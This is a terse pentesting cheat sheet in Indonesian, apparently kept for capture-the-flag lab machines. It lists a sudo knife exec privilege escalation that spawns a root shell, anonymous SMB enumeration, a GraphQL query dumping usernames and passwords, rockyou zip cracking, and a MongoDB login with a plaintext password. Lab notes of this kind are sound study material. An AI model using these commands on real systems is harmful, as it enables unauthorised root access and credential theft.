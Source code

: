 # get flag windows / linux

di linux cat ./flag.txt
di windows type flag.txt

# knife ruby

karna sudo -l bisa sudo nopasswd, tinggal eskalasi ke root aja via knife
cara exec code ruby:

    sudo /usr/bin/knife exec /tmp/exp.rb 

code exp.rb isinya adalah:

    system "/bin/sh" 

# SMBMAP

    smbmap -H 10.10.10.3

# SMBCLIENT

    smbclient -N //10.10.10.3/tmp

# windows hidden file
    
    ls -force

or 

    gci -force

# Graphql

query graphql: 

    http://10.10.10.121:3000/graphql?query={user{username,password}}

# fcrackzip

cracking zip

    fcrackzip -u -v -D -p ../../tools/wordlist/rockyou.txt data.zip

# Mongodb

login with user pass mongodb

    mongo localhost:27017/scheduler -u mark -p 5AYRft73VtFpc84k

# webdav cek

    davtest -url 10.10.10.15

# creating local web server PHP

    sudo php -S 10.10.14.22:84  

# creating local web server python

    python3 -m http.server

# privesc via network command

    https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f
